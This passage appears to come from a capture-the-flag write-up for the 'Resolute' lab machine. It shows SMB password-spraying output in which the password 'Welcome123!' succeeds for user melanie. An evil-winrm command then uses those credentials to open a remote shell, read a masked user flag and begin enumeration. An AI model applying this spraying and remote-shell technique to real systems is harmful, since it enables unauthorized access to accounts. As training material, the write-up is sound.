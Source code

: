     SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123! 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\zach:Welcome123! STATUS_ACCESS_DENIED 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\simon:Welcome123! STATUS_ACCESS_DENIED 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\naoki:Welcome123! STATUS_ACCESS_DENIED 
    

Fourth from the bottom, there’s success for melanie.

### WinRM Shell

I don’t know if malanie is an administrator or in the Remote Management Users
group, but it’s worth a shot to see if I can EvilWinRM to get a shell as
melanie. It works:

    
    
    root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
    
    Info: Starting Evil-WinRM shell v1.7
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\melanie\Documents> 
    

And get `uset.txt`:

    
    
    *Evil-WinRM* PS C:\Users\melanie\desktop> type user.txt
    0c3be45f************************
    

## Priv: melanie –> ryan

### Enumeration

After looking around melanie’s home directory and not finding anything useful,
I went to the filesystem root:

    
    
    *Evil-WinRM* PS C:\> ls
    
        Directory: C:\
    
    Mode                LastWriteTime         Length Name    
    ----                -------------         ------ ----    
    d-----        9/25/2019   6:19 AM                PerfLogs
    d-r---        9/25/2019  12:39 PM                Program Files
    d-----       11/20/2016   6:36 PM                Program Files (x86)
    d-r---        12/4/2019   2:46 AM                Users   
    d-----        12/4/2019   5:15 AM                Windows 
    